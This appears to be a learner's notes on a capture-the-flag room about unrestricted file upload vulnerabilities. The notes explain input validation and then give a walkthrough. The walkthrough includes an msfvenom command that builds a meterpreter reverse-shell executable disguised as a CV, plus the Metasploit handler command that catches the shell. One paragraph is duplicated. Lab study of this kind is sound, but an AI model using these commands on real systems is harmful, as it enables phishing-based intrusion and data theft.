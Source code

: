 
## Input Validation

Insufficient input validation is one of the biggest security concerns for web applications. The issue occurs when user-provided input is inherently trusted by the application. Since user input can also be controlled by an attacker, we can see how this inherent trust can lead to many problems. Several web application vulnerabilities, such as SQL Injection, Cross Site Scripting, and Unrestricted File Upload, stem from the issue of insufficient user input validation. This task will focus on how insufficient input validation can lead to an Unrestricted File Upload vulnerability.

### Learning Objectives

-   Input validation of file upload funtionality
-   Unrestricted file upload vulnerabilities
-   Phishing through file uploads
-   How to properly secure file upload functionality

The _Unrestricted_ in Unrestricted File Uploads

The ability to upload files to a server has become integral to how we interact with web applications. Just think of file uploads like a profile picture for a social media website, a report being uploaded to cloud storage, or saving a project on GitHub; the applications for file upload features are limitless.  
  
Unfortunately, when poorly handled, file uploads can also open up severe vulnerabilities in the server. This can lead to anything from relatively minor nuisance problems; all the way up to full Remote Code Execution (RCE) if an attacker manages to upload and execute a shell. With unrestricted upload access to a server (and the ability to retrieve data at will), an attacker could deface or otherwise alter existing content -- up to and including injecting malicious webpages, which lead to further vulnerabilities such as Cross-Site Scripting (XSS) or Cross-Site Request Forgery (CSRF). By uploading arbitrary files, an attacker could potentially use the server to host and/or serve illegal content or to leak sensitive information. Realistically speaking, an attacker with the ability to upload a file of their choice to your server -- with no restrictions -- is very dangerous indeed.

Unrestricted File Uploads usually have two main exploitation paths:

-   If the attacker can retrieve the uploaded file, it could lead to code execution if the attacker uploads a file such as a web shell.
-   If the file is viewed by a user, think of a CV application, then an attacker could embed malware in the uploaded file that would execute on the user's workstation once they view the file.

There has been quite a lot of focus on RCE through web shells in previous rooms, so in this task, we will focus on the latter exploitation path.

There has been quite a lot of focus on RCE through web shells in previous rooms, so in this task, we will focus on the latter exploitation path.

----
1.  Access the machine ![[Pasted image 20221226134015.png]]
2. created the payload in order that will be sent over
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=5559 -f exe -o cv-username.exe
```
The payload appears in the folder where the payload is created 
![[Pasted image 20221226135648.png]]

3. Create the reverse shell listenter 
```shell
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5559; exploit"
```

need to check ifconfig if using openvpn to get the ip.

Once the shell is created can navigate to the the different DIR to discover important information
